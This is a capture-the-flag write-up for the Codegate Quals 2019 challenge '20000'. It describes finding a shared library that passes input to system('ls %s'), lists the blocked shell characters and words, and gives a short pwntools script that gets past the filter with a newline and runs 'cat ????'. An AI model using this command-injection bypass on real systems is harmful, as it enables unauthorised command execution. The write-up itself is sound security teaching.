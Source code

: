 ```yaml
---
title: "20000 - Codegate Quals 2019"
author: "pietroferretti"
comments: true
tags: codegate ctf mhackeroni command-injection
---
```


>Is this the vulnerable library?

We have one executable, `20000`, and 20000 shared libs in the `20000_so` folder.

The main executable will let you choose which of the 20000 libs to actually load, then run the `test` function.

At a first look, most of the libs just immediately end execution with a call to `exit`. With a combination of testing all libs automatically and dumb luck, we noticed that the `lib_2035.so` lib calls `system("ls %s")` with our input, instead of just exiting.

`lib_2035.so` though loads and runs `filter1` from `lib_11896.so` and `filter2` from `lib_5163.so`, which prevent us from using the following characters and strings:

```
;
*
|
&
$
`
>
<
r
v
m
p
d
"bin"
"sh"
"bash"
f
l
g
```

Even with the filter, injecting arbitrary shell commands is easy, we just need to add an end-of-line character (`\n`). To read the flag file we can just use globbing and bypass the `f l g` filter.

```python
#!/usr/bin/env python2
from pwn import *
with remote('110.10.147.106', 15959) as p:
    p.recvuntil('INPUT : ')
    p.sendline('2035')
    p.recvuntil('file')
    p.sendline('"\ncat ????')
    p.interactive()
```

`flag{Are_y0u_A_h@cker_in_real-word?}`

